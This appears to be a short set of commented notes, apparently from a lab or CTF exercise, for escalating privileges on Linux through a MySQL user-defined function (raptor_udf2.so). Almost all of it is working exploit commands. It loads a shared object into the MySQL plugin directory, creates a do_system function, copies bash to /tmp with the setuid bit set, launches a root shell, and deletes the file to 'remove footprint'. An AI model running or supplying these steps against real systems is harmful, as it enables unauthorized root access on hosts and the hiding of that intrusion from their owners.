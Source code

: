 # start root MySql server
    mysql -u root

## Once inside of server ##
# use the mysql database to be able to run functions
    use mysql;

# create table with column that will accept binary data
    create table foo (line blob);

# load exploit binary data and convert to sql readable format
    insert into foo values(load_file('/home/user/raptor_udf2.so'));

# dump sql readable format to sql plugin directory (not accessible)
    select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

# allow 'do_system' function to be used within sql server for command injection
    create function do_system returns integer soname 'raptor_udf2.so';

# copy bash environment to globally accessible directory to be executed
# and run as root bash environment
    select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

## exit MySql server ##
# run root bash environment with persisted permissions
    /tmp/rootbash -p

# remove footprint before exiting root shell
    rm /tmp/rootbash
